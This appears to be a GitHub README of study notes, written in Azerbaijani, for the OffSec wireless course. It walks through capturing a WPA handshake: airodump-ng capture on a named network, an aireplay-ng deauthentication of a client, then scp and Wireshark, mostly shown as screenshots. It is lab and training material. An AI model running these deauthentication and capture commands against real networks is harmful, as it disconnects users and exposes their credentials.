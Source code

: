 Ilk once hedefi mueyyen eliyirik

![Screenshot 2023-05-02 004539](https://user-images.githubusercontent.com/90620429/235608982-51778c63-dfc8-4b09-a059-29b0e9747831.png)

Indi ise dump-a kecirib pcap faylini goturek

```
sudo airdump-ng -c 2 -w Playtronics wlan0mon
```

Client-le elaqeni kesib, paketi goturek

```
sudo aireplay-ng -0 1 -a "AP address" -c "cliend address" wlan0mon
```

![image](https://user-images.githubusercontent.com/90620429/235652333-24ab48cc-9948-4e12-8726-ec149f71e5a5.png)

![image](https://user-images.githubusercontent.com/90620429/235652729-495f1987-76fc-4f60-8a1a-da3de30e35c4.png)

goturdukden sonra ssh ile ozumuze oturek

scp remoteuser@remoteserver:/remote/folder/remotefile.txt  localfile.txt

wireshark ile aciriq

![image](https://user-images.githubusercontent.com/90620429/235652791-a26b6172-2662-49c3-9bd4-4f8533703b68.png)


![image](https://user-images.githubusercontent.com/90620429/235652831-0c15e822-1072-44eb-a0b0-e1a7191bdd44.png)


![image](https://user-images.githubusercontent.com/90620429/235652968-e9d8c195-5a35-4cb8-bd83-bf5fa1e1dfd8.png)


![image](https://user-images.githubusercontent.com/90620429/235653013-f5eadc9d-111c-4eff-b81f-84bc0a6ac028.png)


![image](https://user-images.githubusercontent.com/90620429/235653067-65fedda8-af73-4b3b-8937-1d3c00794692.png)


![image](https://user-images.githubusercontent.com/90620429/235653131-636ac7bc-8695-4cae-8837-c69340977a1c.png)


![image](https://user-images.githubusercontent.com/90620429/235653213-521f7247-a524-48b1-adeb-4fd7320d8cd8.png)


![image](https://user-images.githubusercontent.com/90620429/235653289-865d2d9e-ba38-4458-ab3a-fbe22a358bd3.png)


![image](https://github.com/al1z4deh/OSWP/assets/90620429/5d8fd05f-7bb8-4c74-8b6b-bbfe87d328b3)




![image](https://user-images.githubusercontent.com/90620429/235653399-ec84426b-dc36-4995-972e-72bd42b0f795.png)

![image](https://user-images.githubusercontent.com/90620429/235653428-26d174a9-2568-4d16-b7f9-fca3c7cad029.png)

![image](https://user-images.githubusercontent.com/90620429/235653570-77f336c2-4ebe-4cac-8384-dd9ce4a12366.png)


![image](https://user-images.githubusercontent.com/90620429/235653640-34d0a093-86a2-434f-8d23-201b63afdcf3.png)

![image](https://user-images.githubusercontent.com/90620429/235653700-2a748c7d-9ef5-4e31-ae18-d653b8b2f8d9.png)


onnan sonra biraz gozle yada airplay at tezeden qosulsun

![image](https://user-images.githubusercontent.com/90620429/235653788-d56246b1-4a8f-4398-92ac-3197f313f431.png)


![image](https://user-images.githubusercontent.com/90620429/235653841-2e1b0c5f-70d3-47bb-9e20-a4f74485c14b.png)


ref: https://portal.offsec.com/courses/pen-210/books-and-videos/modal/video/attacking-wpa-enterprise/attack/attack


https://vimeo.com/192497350
